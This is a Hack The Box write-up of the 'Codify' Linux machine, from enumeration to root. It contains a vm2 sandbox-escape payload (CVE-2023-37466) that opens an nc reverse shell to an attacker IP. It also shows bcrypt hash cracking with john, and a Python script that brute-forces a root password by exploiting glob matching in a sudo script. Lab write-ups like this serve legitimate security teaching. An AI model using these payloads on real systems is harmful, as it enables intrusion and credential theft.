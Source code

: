 ```yaml
---
author: pl4int3xt
layout: post
title: Codify
date: '2023-11-07 09:13:35 +0300'
cover: img/cover_images/42.png
description: "Codify is an easy linux machine from HTB"
categories: [HTB, Codify]
---
```


## MACHINE INFO

> **[Codify](https://app.hackthebox.com/machines/Codify)** is an easy linux machine which leverages a CVE on `vm2` and the knowledge of `javascript` inorder to create a script for a reverse shell and the basic of any scripting language such as `python` to create a custom script for privilege escalation through bruteforce attack.
{: .prompt-info }

## ENUMERATION

```bash
nmap -sV -sC -top-ports 100 10.10.11.239
```

```bash
Nmap scan report for 10.10.11.239
Host is up (0.79s latency).
Not shown: 97 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.78 seconds
```

We add the ip to our hosts file 
```bash
echo '10.10.11.239 codify.htb' | sudo tee -a /etc/hosts
```
The website allows us to run javascript code

![img-description](/assets/img/codify/1.png)

We notice the website uses vm2

![img-description](/assets/img/codify/2.png)

After searching for the exploits on vm2 i came across this [CVE-2023-37466](https://github.com/advisories/GHSA-cchq-frgv-rjh5) that allows RCE

We craft our payload to create [netcat bind and reverse shells](https://patchthenet.com/blog/create-bind-and-reverse-shells-using-netcat/) to connect with netcat

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.178 4242 >/tmp/f');
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

We then listen on our machine for connections

```bash
sudo nc -lnvp 4242
```

We run the code and immediately "WE ARE IN". We move to var/www/ and find a directory ```contact```. We move into the directory and find ```tickets.db```
```bash
$ cd var/www/  
$ ls
contact
editor
html
$ cd contact
$ ls
index.js
package.json
package-lock.json
templates
tickets.db
```

We use sqlite3 to get the data in users table. We find a user joshua with a hash 
```bash
$ sqlite3 tickets.db
.tables
tickets  users  
select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We crack the hash with john and find the password ```spongebob1```
```bash
john --wordlist=/usr/share/dict/rockyou.txt hash.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:01:11 DONE (2023-11-07 11:45) 0.01399g/s 19.14p/s 19.14c/s 19.14C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We connect with ssh to the machine
```bash
ssh joshua@10.10.11.239
password: spongebob1
```

## PRIVILEGE ESCALATION
We notice a script running at ```/opt/scripts/mysql-backup.sh```. The script allows us to guess the password endless times
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
We create a python script to bruteforce the password of the root
```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

```bash
joshua@codify:/tmp$ python3 brute.py
[sudo] password for joshua: 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```
We switch to root and enter the password. We are now r00t
```bash
joshua@codify:/tmp$ su
Password: 
root@codify:/tmp#
```

![img-description](/assets/img/codify/3.png)
